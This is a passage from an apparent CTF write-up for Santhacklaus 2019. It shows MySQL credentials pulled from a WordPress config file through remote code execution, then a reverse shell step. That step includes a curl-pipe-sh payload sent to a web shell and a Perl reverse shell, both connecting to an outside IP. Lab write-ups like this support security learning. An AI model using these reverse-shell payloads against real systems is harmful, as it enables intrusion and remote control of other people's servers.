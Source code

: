 
### 3.2. Bdd creds

With the RCE we was able to easily grab MySQL credentials from `wp-config.php` file.

```php
<?php
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress');

    /** MySQL database username */
    define( 'DB_USER', 'wordpress');

    /** MySQL database password */
    define( 'DB_PASSWORD', '3m1n3m4EVERyoung1nM(y)<3');

    /** MySQL hostname */
    define( 'DB_HOST', 'db:3306');

    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8');

    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '');
?>
```

Look at this l33t originality :D

### 3.3. Reverse shell

With Weevely, we successfully obtained a nice reverse shell. For the exercice, we also checked classics reverse shell payloads but  they weren't working. In the end we still managed to get a reverse shell with perl payload.

{{< protips "In the objective to optimise your post exploitation time, I advise you to use shell.now.sh, an automated reverse shell tool : https://github.com/lukechilds/reverse-shell" >}}

`shell.now.sh` is a reverse shell provider tool. It's really simple to use : `curl https://shell.now.sh/<IP>:<PORT> | sh`

Final paylod : `http://survive-all.santhacklaus.xyz/wp-content/uploads/3e5t12e.php?cmd=curl https://shell.now.sh/1.2.3.4:4444 | sh`


![](/img/santhacklaus-2019/screen-16-5.png)

If you are curious, here is the original payload :

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"1.2.3.4:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Step 4 : Privilege escalation
